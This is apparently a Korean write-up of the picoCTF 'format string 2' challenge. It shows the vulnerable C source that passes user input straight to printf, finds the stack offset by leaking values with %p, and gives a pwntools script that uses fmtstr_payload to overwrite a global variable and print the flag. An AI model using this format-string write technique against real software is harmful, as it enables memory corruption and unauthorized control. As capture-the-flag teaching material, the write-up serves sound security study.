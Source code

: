 # [format string 2](https://play.picoctf.org/practice/challenge/448?category=6&difficulty=2&page=1)
<br />

**Description:**
> This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!
<br />

**Source Code:**
```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```
<br />

**Binary Protections:**
```yaml
vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=dfe923d97df1df729249ff21202d10ad15d45f4c, for GNU/Linux 3.2.0, not stripped

[*] '/home/kali/pico/format_string_2/vuln'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<br />

# 1. 메모리 유출로 오프셋 구하기
문제에서 제공되는 소스코드를 보면 `printf`의 인자에 `buf`를 사용하는 것을 알 수 있습니다. 이는 FSB 취약점이 발생하며, 내부 주소들이 유출될 수 있습니다. 본 문제의 취지는 해당 취약점을 이용해서 특정 데이터를 바꾸는 것입니다. 따라서 FSB취약점으로 `sus`의 값을 `0x67616c66`로 바꾸면 FLAG를 획득할 수 있습니다.
<br />

우선 포맷 문자열로 입력을 받을 때, 저장되는 시작위치의 오프셋을 알아냅니다.
```bash
$ ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
AAAAAAAA%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
Here's your input: AAAAAAAA0x7ffebfe913e0.(nil).(nil).(nil).0x400.0x7ffebfe916d0.0x7ffebfe91638.0x3de00ec7.0x7f017e91911c.0x1.0x7ffebfe91700.(nil).(nil).0x4141414141414141.
sus = 0x21737573
You can do better!
```
```bash
$ ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
AAAAAAAA.%14$p
Here's your input: AAAAAAAA.0x4141414141414141
sus = 0x21737573
You can do better!
```
오프셋은 14 입니다.
<br />

```bash
$ readelf -s vuln | grep "sus"
    28: 0000000000404060     4 OBJECT  GLOBAL DEFAULT   25 sus
```
`sus`의 주소는 `0x404060` 입니다. `fmtstr` 함수로 데이터를 쉽게 조작할 수 있습니다.

<br />

```python
from pwn import *

context.arch = "amd64"

p = process("./vuln")
#p = remote("rhea.picoctf.net", 64169)

pay = fmtstr_payload(14, {0x404060:0x67616c66})

p.send(pay)
p.interactive()
```
```bash
$ python3 test.py
[+] Opening connection to rhea.picoctf.net on port 62653: Done
[*] Switching to interactive mode
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
$
Here's your input:                                                                                                      uc    \x00                                                                                                                                                                                                                                                    \x00aaaaba`@@
I have NO clue how you did that, you must be a wizard. Here you go...
picoCTF{f0rm47_57r?_f0rm47_m3m_99fd82cd}[*] Got EOF while reading in interactive
$
```
